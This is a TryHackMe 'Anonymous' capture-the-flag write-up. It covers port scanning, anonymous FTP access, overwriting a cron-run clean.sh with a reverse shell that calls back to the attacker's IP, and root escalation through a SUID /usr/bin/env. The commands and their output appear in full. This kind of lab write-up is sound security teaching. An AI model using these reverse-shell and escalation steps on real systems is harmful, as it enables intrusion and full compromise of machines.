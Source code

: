 ```yaml
---
title: TryHackMe - Anonymous
author: 0
date: 2023-04-08 16:00:00 +0800
categories: [thm, machine]
tags: [ftp, smb, cronjob, suid]
render_with_liquid: false
---
```


This is a medium Linux box on TryHackMe.

>Try to get the two flags! Root the machine and prove your understanding of the fundamentals! This is a virtual machine meant for beginners. 

>Acquiring both flags will require some basic knowledge of Linux and privilege escalation methods.

## Reconnaissance
```bash
$ nmap -sC -sV  -A  -Pn -p- -oN nmap_result 10.10.130.199
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-07 15:33 CEST
Nmap scan report for 10.10.130.199
Host is up (0.036s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.18.11.118
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8bca21621c2b23fa6bc61fa813fe1c68 (RSA)
|   256 9589a412e2e6ab905d4519ff415f74ce (ECDSA)
|_  256 e12a96a4ea8f688fcc74b8f0287270cd (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1s, deviation: 1s, median: 1s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-04-07T13:34:19
|_  start_date: N/A
|_nbstat: NetBIOS name: ANONYMOUS, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: anonymous
|   NetBIOS computer name: ANONYMOUS\x00
|   Domain name: \x00
|   FQDN: anonymous
|_  System time: 2023-04-07T13:34:19+00:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 65.26 seconds
```

We notice a few ports are open, but most importantly is that FPT allows anonymous logins.

```bash
ftp 10.10.130.199
Connected to 10.10.130.199.
220 NamelessOne's FTP Server!
Name (10.10.130.199:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts
ftp> cd scripts
250 Directory successfully changed.
ftp> dir
-rwxr-xrwx    1 1000     1000          314 Jun 04  2020 clean.sh
-rw-rw-r--    1 1000     1000         1161 Apr 07 13:39 removed_files.log
-rw-r--r--    1 1000     1000           68 May 12  2020 to_do.txt
ftp> get to_do.txt
local: to_do.txt remote: to_do.txt
ftp> get removed_files.log
local: removed_files.log remote: removed_files.log
ftp> get clean.sh
local: clean.sh remote: clean.sh
ftp> exit
221 Goodbye.

$ cat to_do.txt  
I really need to disable the anonymous login...its really not safe
$ cat removed_files.log 
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete     
$ cat clean.sh         
#!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```

Nothing special here, we can however, mount this share and overwrite the `clean.sh` file as it seems to be triggered by a cronjob.

### Check out SMB share

```bash
$ smbclient -L 10.10.130.199               
Password for [WORKGROUP\kali]:

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        pics            Disk      My SMB Share Directory for Pics
        IPC$            IPC       IPC Service (anonymous server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            ANONYMOUS

```

Nothing special found here.

## Foothold

We will mount the drive with `curlftpfs` and try to overwrite `clean.sh` to spawn a reverse shell.

### Mount the drive

```bash
$ sudo apt install curlftpfs
$ sudo curlftpfs anonymous:anonymous@10.10.130.199 /mnt/my_ftp/ 
$ sudo ls /mnt/my_ftp
scripts
```

The drive is mounted now we can edit the `clean.sh` script and add the command `sh -i >& /dev/tcp/10.18.11.118/1234 0>&1` to spawn a reverse shell. We will also spawn a `netcat` listener (`nc -lvnp 1234`) in a separate window.


```bash
$ sudo vi /mnt/my_ftp/scripts/clean.sh
#!/bin/bash

sh -i >& /dev/tcp/10.18.11.118/1234 0>&1

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```

## Privilege Escalation

We got access to the shell, through enumeration we check all binaries that had the SUID bit set through `find / -type f -perm -u=s -ls 2>/dev/null` and noticed that  `/usr/bin/env` is in this list. According to [GTFObins:](https://gtfobins.github.io/gtfobins/env/)
> If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor.

We can get a root shell through running the command `/usr/bin/env /bin/sh -p`

```bash
$ nc -lvnp 1234                                 
listening on [any] 1234 ...
connect to [10.18.11.118] from (UNKNOWN) [10.10.130.199] 57340
$ whoami
namelessone
$ ls
pics
user.txt
$ cat user.txt
**REDACTED**
$ sudo -l
sudo: no tty present and no askpass program specified
$ find / -type f -perm -u=s -ls 2>/dev/null
   131150     28 -rwsr-xr-x   1 root     root               26696 Mar  5  2020 /bin/umount
   131140     32 -rwsr-xr-x   1 root     root               30800 Aug 11  2016 /bin/fusermount
   131191     64 -rwsr-xr-x   1 root     root               64424 Jun 28  2019 /bin/ping
   131084     44 -rwsr-xr-x   1 root     root               43088 Mar  5  2020 /bin/mount
   131207     44 -rwsr-xr-x   1 root     root               44664 Mar 22  2019 /bin/su
   919497     12 -rwsr-xr-x   1 root     root               10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
   919679    428 -rwsr-xr-x   1 root     root              436552 Mar  4  2019 /usr/lib/openssh/ssh-keysign
   919144     60 -rwsr-xr-x   1 root     root               59640 Mar 22  2019 /usr/bin/passwd
   918992     36 -rwsr-xr-x   1 root     root               35000 Jan 18  2018 /usr/bin/env
   919017     76 -rwsr-xr-x   1 root     root               75824 Mar 22  2019 /usr/bin/gpasswd
   919128     40 -rwsr-xr-x   1 root     root               37136 Mar 22  2019 /usr/bin/newuidmap
   919127     40 -rwsr-xr-x   1 root     root               40344 Mar 22  2019 /usr/bin/newgrp
   918924     44 -rwsr-xr-x   1 root     root               44528 Mar 22  2019 /usr/bin/chsh
   919126     40 -rwsr-xr-x   1 root     root               37136 Mar 22  2019 /usr/bin/newgidmap
   918922     76 -rwsr-xr-x   1 root     root               76496 Mar 22  2019 /usr/bin/chfn
   919269    148 -rwsr-xr-x   1 root     root              149080 Jan 31  2020 /usr/bin/sudo
   919305     20 -rwsr-xr-x   1 root     root               18448 Jun 28  2019 /usr/bin/traceroute6.iputils
   918871     52 -rwsr-sr-x   1 daemon   daemon             51464 Feb 20  2018 /usr/bin/at
   919164     24 -rwsr-xr-x   1 root     root               22520 Mar 27  2019 /usr/bin/pkexec
$ /usr/bin/env /bin/sh -p
ls
pics
user.txt
$ whoami
root
$ cat /root/root.txt
**REDACTED**
```